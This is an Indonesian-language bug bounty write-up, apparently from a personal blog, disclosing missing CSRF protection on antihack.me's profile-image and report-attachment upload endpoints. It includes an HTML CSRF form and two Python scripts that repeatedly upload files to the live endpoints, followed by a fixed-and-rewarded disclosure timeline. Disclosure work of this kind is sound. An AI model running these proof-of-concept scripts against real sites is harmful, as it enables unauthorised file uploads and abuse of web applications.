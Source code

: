 ```yaml
---
layout: post
title: "[Bug Bounty] Antihack.me CSRF File Upload Vulnerability"
date: 2019-01-09 07:00
categories: bugbounty
---
```

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/logo.png?raw=true">
</div>


#### <b>CSFR #1 On Profile Image File Upload</b>
Antihack.me merupakan sebuah website Bug Bounty Platform asal singapura. Setelah mendaftarkan user baru dan login ke aplikasi, kita dapat mengatur profile kita sebagai bug hunter, termasuk juga setting avatar/photo profile. Tertarik dengan fitur upload imagenya, kita coba intercept request upload image tersebut.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/burp.png?raw=true">
</div>

Terlihat disana beberapa parameter yang dikirimkan, akan tetapi disana tidak ada csrf protection, artinya siapapun dapat mengakses fitur upload ini, sekalipun dia tidak memepunyai akses ke akun manapun.

Lalu kami coba test request dengan html:
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<title>CSRF File Upload</title>
</head>
<body>
	<form action="https://www.antihack.me/php/img_save_to_file_hacker.php" method="POST" name="csrf" enctype="multipart/form-data">
		<input type="file" name="img">
		<input name="HOST" value="AntiHACK">
		<input type="submit" value="Kirim">
	</form>
</body>
</html>
```

Lalu kami request dengan secript diatas dan didapatkan file berhasil diupload dengan baik. 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/hasil%20html.png?raw=true">
</div>

Lalu kami coba buat script csrf dengan python:
```
#!/usr/bin/python3

import requests

headers = {
	'Origin':'www.antihack.me'
}
files = {
        'img': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }
data = {
	"HOST":"AntiHACK"
}

for i in range(3):
	r = requests.post("https://www.antihack.me/php/img_save_to_file_hacker.php",files=files, headers=headers, data=data)
	print(r.text)
```
Ketika dieksekusi, file terupload dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf1/hasil%20python.png?raw=true">
</div>

#### <b>CSRF #2 On Report And Comment File Upload</b>

Sepertihalnya platform bug bounty pada umumnya, disana terdapat fitur untuk melakukan reporting terkait celah keamanan yang ditemukan. Didalam fitur reporting tersebut terdapat beberapa fungsi editing, tak lupa fungsi upload file gambar/video juga disertakan guna kelengkapan report. 

Dengan script python:
```
#!/usr/bin/python3

import requests


files = {
        'files[]': open("/home/zetc0de/Documents/antihack/antihack/csrf/security.png", 'rb') 
        }

for i in range(5):
	r = requests.post("https://www.antihack.me/php/ajax_upload_file_company_new.php",files=files)
	print(r.text)


```

Didapatkan result sebagai berikut:

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/antihack/csrf2/2018-12-27_21-11.png?raw=true">
</div>
<br>
Semoga bermanfaat :"
<br>
<br>

```
2018-12-28: Bug reported
2018-12-29: Triaged
2019-01-09: Report Resolved
2019-01-09: Swag Rewarded
```